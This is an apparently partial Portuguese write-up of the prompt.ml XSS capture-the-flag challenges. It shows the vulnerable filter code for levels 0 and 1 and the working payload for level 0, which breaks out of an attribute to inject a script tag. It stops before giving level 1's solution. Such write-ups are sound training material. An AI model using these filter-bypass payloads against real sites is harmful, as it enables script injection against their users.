 # Write-up: Desafios XSS em prompt.ml

> Resolvido por **@Cubano2**

---

## Introdução

Este documento apresenta uma análise técnica dos desafios de XSS disponíveis em [prompt.ml](https://prompt.ml/0). Cada nível aplica um mecanismo distinto de filtragem/escape de entrada e requer uma técnica específica de bypass. Os testes foram realizados em **Microsoft Edge** e **Mozilla Firefox**.

---

## Ambiente e Ferramentas

- **Navegadores**: Microsoft Edge, Mozilla Firefox  
- **Ferramentas**: DevTools (Console, Network), proxies HTTP (opcional)

---

## Metodologia

1. **Inspeção do filtro** – Identificar expressões regulares ou transformações aplicadas ao `input`.  
2. **Construção do payload** – Dividir e codificar trechos para contornar cada restrição.  
3. **Teste e refinamento** – Ajustar o payload até que o script seja executado automaticamente.

## level 0
```Js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
Filtro: nenhum (concatenação direta no atributo value).

Resposta: `"><script>prompt(1)</script>`


## level 1
```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}        
```
Filtro: remoção de <…> ou </…> via regex.
